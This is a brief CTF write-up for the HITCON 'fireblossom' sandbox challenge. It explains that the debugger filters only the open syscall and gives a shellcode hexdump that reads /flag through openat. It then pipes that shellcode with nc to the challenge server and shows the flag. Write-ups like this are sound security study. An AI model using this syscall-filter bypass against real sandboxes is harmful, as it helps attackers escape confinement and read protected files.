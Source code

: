 # fireblossom (misc 150)

there were 2 files provided

fireblossom: for setting up a jail + sandbox, then runs fireblossom-claypot

fireblossom-claypot: for executing your shellcode

fireblossom debugs fireblossom-claypot, checking that whenever the open syscall

is executed, the file being read is not "/flag"

to bypass this, we use the openat syscall instead
```
$ xxd a
0000000: 6a00 4159 49bc ffff ffff ffff ffff 4154  j.AYI.........AT
0000010: 4158 6a22 415a 6a07 5a68 0010 0000 5e68  AXj"AZj.Zh....^h
0000020: 0000 4141 5f6a 0958 0f05 49bc 2f66 6c61  ..AA_j.X..I./fla
0000030: 6700 0000 4154 545e 6a00 596a 005a 49bc  g...ATT^j.Yj.ZI.
0000040: 9cff ffff 0000 0000 4154 5f68 0101 0000  ........AT_h....
0000050: 580f 0550 5f68 0000 4141 5e6a 405a 6a00  X..P_h..AA^j@Zj.
0000060: 580f 056a 025f 6800 0041 415e 6a40 5a6a  X..j._h..AA^j@Zj
0000070: 0158 0f05 0a                             .X...
$ cat a | nc 52.69.206.114 10002
Put seeds into the clay pot
hitcon{P4race Ist T0t, 2A1d F1rebl0$soM}
The fireblossom is blooming
```
